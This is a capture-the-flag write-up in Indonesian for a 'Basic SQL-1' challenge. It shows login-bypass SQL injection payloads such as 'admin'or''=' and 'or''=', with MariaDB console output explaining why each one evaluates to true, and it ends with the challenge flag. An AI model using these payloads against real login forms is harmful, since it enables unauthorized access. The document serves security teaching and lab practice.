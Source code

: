 <h1><b>Basic SQL-1</h1></b>
<pre>
Login Form (username & password)
</pre>
</b><h3>Solution</h3></b>
<p>Mencoba login dengan username = <b>admin</b>, password = <b>admin</b> maka akan muncul pesan kesalahan <b>Your username or password is incorrect</b></p>
<p>- Percobaan-1, injection username = <b>'or''='</b> , password = *abaikan* hasil masih menampilkan pesan incorrect</p>
<p>- Percobaan-2, injection username = <b>admin'or''='</b> , password = *abaikan* dan hasil success, Flag didapatkan</p>
<p>Kelemahan terdapat pada MySQL dan tidak terdapat filter dari input string php</p>

```mysql
MariaDB [CTF]> select * from SQL_Challenge1 where username = 'admin'or''='';
+----------+-----------+
| username | password  |
+----------+-----------+
| admin    | ********* |
+----------+-----------+
1 row in set (0.000 sec)

MariaDB [CTF]> select 'admin'or''='';
+----------------+
| 'admin'or''='' |
+----------------+
|              1 |
+----------------+
1 row in set, 2 warnings (0.000 sec)
```
<p>Ingat bagaimana boolean beroperasi dengan operator bitwise AND (1 AND 1 = 1), dan cara diatas bernilai True jika username yang kita input bernilai True atau
sesuai dengan database</p>

<p>Dan, Injection lain yang berlaku untuk bypass SQL pada kondisi diatas tanpa bantuan username yang valid, yaitu dengan injection <b>'or''='</b> 
pada form input username dan password</p>

```mysql
MariaDB [CTF]> select * from SQL_Challenge1 where username=''or''='' and password=''or''='';
+----------+-----------+
| username | password  |
+----------+-----------+
| admin    | ********* |
+----------+-----------+
1 row in set (0.000 sec)

```
<p>Karena pada injection diatas akan menghasilkan username nilai 1(True) dan password 1(True) dan hasilnya (1 AND 1 = 1), seperti contoh dibawah</p>

```mysql

MariaDB [CTF]> select ''or''='';
+-----------+
| ''or''='' |
+-----------+
|         1 |
+-----------+
1 row in set, 2 warnings (0.000 sec)

MariaDB [CTF]> select ''or''='' and ''or''='';
+-------------------------+
| ''or''='' and ''or''='' |
+-------------------------+
|                       1 |
+-------------------------+
1 row in set, 5 warnings (0.000 sec)
```
</b><h3>Flag</h3></b>
<pre>
VenomCTF{M0st_b4sic_SQLi}
</pre>

